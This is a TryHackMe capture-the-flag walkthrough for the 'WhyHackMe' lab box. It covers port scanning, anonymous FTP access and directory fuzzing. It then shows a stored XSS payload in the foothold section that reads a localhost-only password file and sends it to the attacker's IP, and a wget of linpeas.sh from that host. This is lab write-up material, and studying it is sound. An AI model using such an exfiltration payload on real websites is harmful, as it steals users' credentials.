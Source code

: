 ```yaml
---
layout: post
title:  "TryHackMe | Whyhackme"
description: "Walkthrough of whyhackme machine, a Medium rated box from TryHackme"
date: "2024-11-11"
pin: true
image:
  path: ../assets/img/ctf/tryhackme/whyhackme1.png
  alt: "whyhackme.thm"
category: "TryHackMe"
tags: ["ThyHackMe", "Stored XSS", "Iptables Rules", "TLS Traffic Decryption"]
---
```

## Introduction
------------------------------------------------------------------------------------------
[WhyHackMe](https://tryhackme.com/r/room/whyhackme) is a medium linux box from tryhackme. It has 3 ports opens 21 running ftp, 22 running ssh and 80 running a web application. Th foothold consist of exploiting a stored XSS vulnerability to exfiltrate a critical file that can be dicovered on the ftp server. The privilege escalation part involve playing with ipatables rules and decrypting some TLS traffic to access a backdoor runing on a particular port. From here get a reverse shell as www-data who his allowed to run any command as root without a password.

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.4.243
```

```text
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)
```
### Services Scanning
```bash
nmap -p21,22,80 -sC -sV -oN whyhackme.full 10.10.4.243
```

```text
Nmap scan report for 10.10.4.243
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.2.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
|_  256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.99 seconds
```
### Hostname
```bash
echo '10.10.4.243   whyhackme.thm' >> /etc/hosts
```

## FootHold
### Port 21
Since we have anonymous access on the ftp server let's check what we can find there.
```bash
ftp whyhackme.thm
```
![ftp access](./assets/img/ctf/tryhackme/whyhackme2.png)

```text
└─# cat update.txt       
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 

- admin
```
The update.txt file contains an admin message telling that the new account creds can be find at 127.0.0.1/dir/pass.txt, however this is only accessible from localhost.

### Port 80
![web root](./assets/img/ctf/tryhackme/whyhackme3.png)
```bash
ffuf -c -u http://whyhackme.thm/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php
```

```text
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://whyhackme.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 55ms]
blog.php                [Status: 200, Size: 3102, Words: 422, Lines: 23, Duration: 54ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8150ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8583ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 8801ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9094ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 9471ms]
cgi-bin/                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 55ms]
cgi-bin/.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 58ms]
                        [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 54ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 54ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 56ms]
dir                     [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 61ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 66ms]
index.php               [Status: 200, Size: 563, Words: 39, Lines: 30, Duration: 68ms]
login.php               [Status: 200, Size: 523, Words: 45, Lines: 21, Duration: 59ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
register.php            [Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 64ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 60ms]
```
![registration](./assets/img/ctf/tryhackme/whyhackme4.png)
One registered, we can login at `/login.php`. After loged in we can access the blog page where we are allowed to add comments. Let's try adding a comment... 
![blog](./assets/img/ctf/tryhackme/whyhackme9.png)
As we can see, our comment get obviously saved on the server and can be viewed by all the users. We can test for xss there but also in the username field of the registration page since our username also get displayed back.
After trying, i got my xss payload from the username field executed...
![no xss](./assets/img/ctf/tryhackme/whyhackme10.png)
![xss-malicioususer](./assets/img/ctf/tryhackme/whyhackme11.png)
![xss-poc](./assets/img/ctf/tryhackme/whyhackme12.png)
How can we leverage this xss? The admin comment on the blog: `Hey people, I will be monitoring your comments so please be safe and civil`, this suggest us that we can try to leverage this and steal the admin cookie so we can be can have admin access in the applicatin. I've tryied that but no success. However, a recall that we have gotten an admin note from the ftp server. Since we can't access the admin cookie but still can perform actions as admin and in our case i guess the admin is acccessing the blog from localhost. This gives us an opportunity using the xss to exfiltrate the pass.txt file.
```js
<script>fetch("http://127.0.0.1/dir/pass.txt").then(r => r.text()).then(t => fetch("http://10.9.2.138/?q="+t,{mode:"no-cors"}))</script>
```
![exfiltration](./assets/img/ctf/tryhackme/whyhackme13.png)

### Port 22
```bash
ssh jack@whyhackme.thm
```
![registration](./assets/img/ctf/tryhackme/whyhackme5.png)


## Privilege Escalation
```bash
wget http://10.9.2.138/linpeas.sh
./linpeas.sh
```
![sudo -l](./assets/img/ctf/tryhackme/whyhackme6.png)
![another vhost](./assets/img/ctf/tryhackme/whyhackme7.png)
![opt folder](./assets/img/ctf/tryhackme/whyhackme8.png)


## Kill Chain Summary


## References